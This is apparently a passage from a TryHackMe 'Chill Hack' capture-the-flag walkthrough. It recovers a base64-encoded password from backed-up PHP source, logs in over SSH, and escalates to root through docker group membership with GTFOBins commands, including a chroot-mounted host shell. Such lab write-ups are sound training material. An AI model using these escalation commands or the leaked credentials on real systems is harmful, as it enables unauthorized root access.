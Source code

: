 `unzip backup.zip`

then `cat source_code.php`

![[TryHackMe/Chill Hack/images/39.png]]
Observe that we have `base64` encoded password ,so let's apply `Cyberchef` to decode it.

![[TryHackMe/Chill Hack/images/40.png]]

Yes the user:pass combination is now:

`anurodh:!d0ntKn0wmYp@ssw0rd`

Trying `SSH` will be useful:

`ssh anurodh@10.10.119.114`

We are done !

![[TryHackMe/Chill Hack/images/41.png]]

I could not run `linpeas.sh` before ,so manual enumeration is suitable in this scenario let's find `SUID` enabled binaries in this user:

[HackTricks](https://book.hacktricks.xyz/linux-hardening/useful-linux-commands)

`find / -perm /u=s -ls 2>/dev/null`

![[TryHackMe/Chill Hack/images/42.png]]

the most interesting one is `daemon` itself. Except the root, this is suitable to escalate privilege because we cannot run commands as root. Even we try the system blocks:

On [GFTObins](https://gtfobins.github.io/gtfobins/at/) you can reach the following binary exploit:

`echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | sudo at now; tail -f /dev/null`

Again it required to root in order to do operations:

![[TryHackMe/Chill Hack/images/43.png]]

Try the `groups` whether it is on the same or not. To find any vector useful:

`id`
`uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)`

Interesting we have `docker`. Let me check if it is possible to find docker binary on GFTObins:

yess I got it:

[reach out](https://gtfobins.github.io/gtfobins/docker/)

`sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

`Binary vector` did not work:
Shell may be run if we can run `docker`.

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

We are done !

![[TryHackMe/Chill Hack/images/44.png]]

Get the `root` flag here:

![[TryHackMe/Chill Hack/images/45.png]]